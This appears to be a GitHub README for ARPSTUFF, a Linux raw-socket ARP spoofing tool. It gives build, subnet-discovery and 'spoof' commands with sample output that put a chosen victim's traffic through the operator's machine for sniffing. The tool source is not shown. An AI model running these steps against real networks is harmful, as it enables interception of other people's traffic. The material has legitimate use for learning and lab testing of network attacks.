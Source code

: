 # ARPSTUFF
Raw linux sockets example of arp spoofing attack


**FOR EDUCATIONAL PURPOSES ONLY, USE ONLY IN YOUR OWN PRIVATE NETWORK!**

## Quick Start
Build:
```bash
./build.sh
```

Discover local addresses:
```bash
./arpstuff discover wlp1s0
```

After few seconds this will output alive local ips:
```
INFO: Starting local IPs discovery
    Netmask: 255.255.255.0
    Netaddr: 192.168.0.0
    Progress: 255/255 (3 alive)
INFO: Local network scanned, we found 3 ips: [192.168.0.1, 192.168.0.105, 192.168.0.101]
```

Select one of them and spoof it (this requires sudo, since it modifies iptables):
```bash
sudo ./arpstuff spoof wlp1s0 192.168.0.101
```

If you see the following message it means that the spoofing is running:
```
INFO: ARP spoof started on victim:
MAC: 11:12:13:14:15:16
IP:  192.168.0.101
```

At this point, the victim's traffic is passing through your machine. You can use wireshark (or any other network sniffer) to check it out.
